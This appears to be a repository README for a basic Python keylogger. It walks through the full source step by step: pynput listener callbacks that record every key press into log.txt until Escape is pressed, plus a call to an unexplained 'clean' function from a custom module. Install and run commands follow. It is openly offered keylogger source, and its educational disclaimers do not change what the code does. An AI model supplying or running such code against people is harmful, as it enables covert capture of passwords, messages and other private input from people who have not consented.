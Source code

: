 ## Keylogger Project Readme
Overview
This Python script serves as a basic keylogger, capturing key presses and saving them to a log file named 'log.txt'. The code utilizes the pynput library to monitor and record keyboard input. Additionally, there is a function clean() from a module KLcleaner (presumably related to cleaning up after the keylogging process).

Dependencies
pynput: This library is used for monitoring keyboard input.

How it Works
The script imports necessary modules, including pynput.keyboard for keyboard monitoring, and the custom KLcleaner module for cleaning.
python

Copy code
from pynput.keyboard import Key, Listener
from KLcleaner import clean
The script initializes an empty list called keys to store the pressed keys.
python
Copy code
keys = []
Two functions, on_press and on_release, are defined to handle key events. The on_press function appends each pressed key to the keys list, and the on_release function checks if the pressed key is the escape key (Key.esc). If the escape key is pressed, the script writes the collected keys to the 'log.txt' file and terminates the keylogging process.
python
Copy code
def on_press(key):
    keys.append(key)

def on_release(key):
    if key == Key.esc:
        with open('log.txt', 'w') as file:
            file.writelines(str(keys))
        return False
The script initializes a Listener object with the defined on_press and on_release functions, and starts monitoring the keyboard.
python
Copy code
with Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
After the listener is terminated (when the escape key is pressed), the clean() function is called, presumably to perform cleanup operations.
python
Copy code
clean()
Important Notes
This script has the potential to be misused for unauthorized access to sensitive information. Always use such scripts responsibly and only on systems for which you have explicit permission.
Keyloggers are often associated with malicious activities, so be cautious when working on or using such scripts.
Usage
Install the required dependencies:
bash
Copy code
pip install pynput
Run the script:
bash
Copy code
python keylogger.py
Press the escape key to stop the keylogging process.
Disclaimer
This script is intended for educational purposes only. Unauthorized use of keyloggers or any form of malicious activity is illegal and unethical. The author is not responsible for any misuse of this code.






